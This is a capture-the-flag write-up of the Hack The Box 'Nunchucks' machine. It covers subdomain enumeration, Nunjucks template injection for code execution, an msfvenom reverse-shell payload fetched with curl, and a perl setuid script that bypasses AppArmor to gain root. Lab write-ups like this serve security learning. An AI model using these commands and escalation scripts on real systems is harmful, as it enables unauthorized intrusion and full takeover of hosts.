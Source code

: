 # Nunchucks Writeup (Hack The Box) by [yag1n3](https://github.com/yaguine)

objetives :
* user flag
* root flag

---

## User.txt

### Basic Enumeration

the ICMP TTL indicates that it's a Linux Machine  

nmap :
* p22	OpenSSH 8.2p1
* p80	nginx 1.18.0 (Ubuntu)
* p443	nginx 1.18.0 (Ubuntu)

the port 80 server is just a redirection to port 443 server

### Web

having a quick look at the page it seems like there is a signup and login page but neither of them are working  
we try directory enumeration, its a little tricky cause every request gives a 200 status, so we have to filter by size  
we don't find any interesting directory  
by the way, while doing all of this we see that the page is using **Node.js**

there is a mail on the main page whit the domain *nunchucks.htb*  
that makes me think that there might be a hidden subdomain  
we use **ffuf** for subdomain enumeration and we find *store.nunchucks.htb*  

### Store

the first thing we see is an textbox asking for an email  
that sends the email to */api/submit*, and we get a response where the email of your input is sent back to you

i get to a point where i can't find anything and i check HTB to see the tags of the machine  
we see the tag **SSTI**, that stands for Server Side Template Injection  
i didn't even know about this vulnerability, so i search for it and i try various payloads  
looks like sending *{{7\*3}}* to */api/submit* works because it responds you with 21  

### Exploiting SSTI 

we try to know which template Node is using by trying payloads on this [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)  
we come to the conclusion that its using **NUNJUCKS**

after a lot of tries, i find a payload that actually works :  
![](./contents/screenshots/screenshot1.png)  

the reason why i needed a lot of tries is because the payload i found had single quotes instead of backslash + double quotes  
that is, `'child_process'` insted of `\"child_process\"`

### Upgrading RCE to a Reverse Shell

the most common reverse shell payloads are not working for me, so i though about creating a reverse shell executable with **msfvenom**  
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`  
now i create a server on my machine with Python and use the **SSTI** and the **curl** command to upload it to the target machine  
i give execution permisions to the file with **chmod** and then set a **netcat listener**  
now i execute the file... it works !!! we have a Reverse Shell and user.txt

---

## Root.txt

we search binaries capabilities and we find that **perl** has the following capabilitie : *cap_setuid+ep*  
there is an entry in GTFOBins to exploit this, the payload is 
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
it doesn't work, but it works with *whoami* instead of */bin/sh*... what is happening ?  

this kind of behaviour in a program reminds me of the security module **AppArmor**  
so we find files containing the word *AppArmor*  
there are plenty of them !! we find an interesting folder at */etc/apparmor.d* whit a file called *usr.bin.perl*  
it seems that is denying us the acces to */root*  
is there any way to bypass that ? time to ask Google !!  

there is a pretty interesting bug about this topic on [this link](https://bugs.launchpad.net/apparmor/+bug/1911431)  
it says that you can bypass it with a script starting with a **shebang line** (#!/usr/bin/perl)  
lets try it !! we write this script called *shell.perl*
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
we give execution permission to it, we execute it with ```./shell.perl``` and voilá !!! there you go  
enjoy your root acces !

